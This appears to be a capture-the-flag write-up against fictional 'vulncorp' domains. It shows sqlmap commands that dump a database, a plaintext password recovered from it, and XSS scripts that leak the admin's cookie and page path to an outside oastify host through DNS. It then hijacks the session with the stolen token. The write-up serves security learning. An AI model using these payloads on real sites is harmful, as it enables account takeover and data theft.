So there's a getUser end point lets look what that gives. Here's a sample response using id 1

```
{"email":"andre.alexander.068cbb15c66e5159@vulncorp.co.uk"}
```

Changine the id 1-10 for most just brings back the email we already know about, apart from id 10 which gives

```
{"email":"pwn"}
```

Errr OK. This looks to be on the account skylah.sutton.a8c9d0121d4c795e@vulncorp.co.uk as we have valid responses for all other id's

I also noticed if I remove the id parameter I get the response

```
["Missing GET variable: id"]
```

Could this be a clue? I tried a parameter fuzz on /getUser?FUZZ=10, only id gives a response

A fuzz on the content for this domain also doesn't reveal anything we don't know already

- new
- login
- logout
- css
- js

OK lets move on to the last domain (prueba.vulncorp.co.uk) as I can't see anything useful here for now. Prueba looks like it's the Spanish word for test



OK so a test NAS server. A content fuzz brings back

- login
- logout
- css 
- js

Urgh, ok not much there. Not sure I have enough info to tackle this domain yet

Lets go back. OK so a quick check on the id parameter of getUser and sqlmap seems to think it's vulnerable to SQLi

```
└─$ sqlmap -u http://webmail.vulncorp.co.uk/getUser?id=10* --cookie="ctfchallenge=xxx; token=xxx" --proxy="http://127.0.0.1:8080"
```

```
└─$ sqlmap -a -D vulncorp_mail -u http://webmail.vulncorp.co.uk/getUser?id=10* --flush-session --cookie="ctfchallenge=xxx; token=xxx" --proxy="http://127.0.0.1:8080"
```

Using the above commmand I managed to dump the DB vulncorp_mail, and there's an entry in the mail table with enough details to continue

```html
Hi Sania,<br>\r\nI've created a user account on our NAS box for you.<br>\r\nThe details are:<br><br>\r\nUsername: sania<br>\r\nPassword: 0sB6mv1ru0Q2DyPes\r\n<br><br>\r\nI cant remember the name of the login domain but it begins with "pru"\r\n<br><br>\r\nCheers<br><br>\r\nAndre<br><br>[^FLAG^xxx^FLAG^]
```

So there's flag 6, and we already know the prueba domain. So I login and here is flag 7 :)



The link to the private share is http://prueba.vulncorp.co.uk/share/183. Clicking on it gives me the message

```
You do not have access to this share
```

Changing the share id to anything else just returns a not found error.

Clicking the request access button pops up this modal



If I send a message the page updates to say 'Request Message Sent', and the query param ?sent=1 becomes part of the path.

Send another request soon after and the message updates to 'You can only send one request per minute', this time the param is ?error=1.

Quick fuzz on the parameter (?FUZZ=1) doesn't bring back anything new.

So I probably have to send a message to the admin which will make them auto approve access to the share without them having to do a click.

OK lets see if I can get it to make a request out to my Burp collaborator

Sent a request with this content

```html

```

And collab then reports a DNS lookup



But there is no HTTP request, and the IP it's reporting is not part of the scope.

So I can't rely on HTTP requests. BUT, this may work

```
<script>var i = new Image();i.src="http://" + document.cookie.split(';')[1].split('=')[1] + ".vsrc8isplbyjsz24fprr8iv1vs1ip7.oastify.com";document.getElementsByTagName('body')[0].appendChild(i);</script>
```

And yes I get the admin token cookie value :D



Quick switch of my token with theirs (55fa2ffbc954b9f20d892120d7ffd92a) and I can now access the share!



This contains a file called flag.txt containing flag 8 :)

OK the link to the file is http://prueba.vulncorp.co.uk/share/183/1733

Which seems a little odd so maybe there are other files on a different number. A bit of testing a range of numbers however only shows 1733 as a valid entry

So this XSS must be being triggered from somewhere, so I'm wondering if I can use the same trick to see where/which path

Using the below I get an interaction on view_message939

```javascript
<script>var i = new Image();i.src="http://" + window.location.pathname.replaceAll("/", "") + ".edv06loc8zmcmb18zcq4mh9jnat0hp.oastify.com";document.getElementsByTagName('body')[0].appendChild(i);</script>
```

Bit of playing with the path and I work out the URL is http://prueba.vulncorp.co.uk/view_message/939

This shows the message and then a refresh immediately after shows the message as being not found. Trying a message id with a range of 1-5000 shows message not found for all results.

OK I think I need to look elsewhere now. Quick google on vulncorp and a linkedin entry pops up!



Flag 9 found, challenge complete :)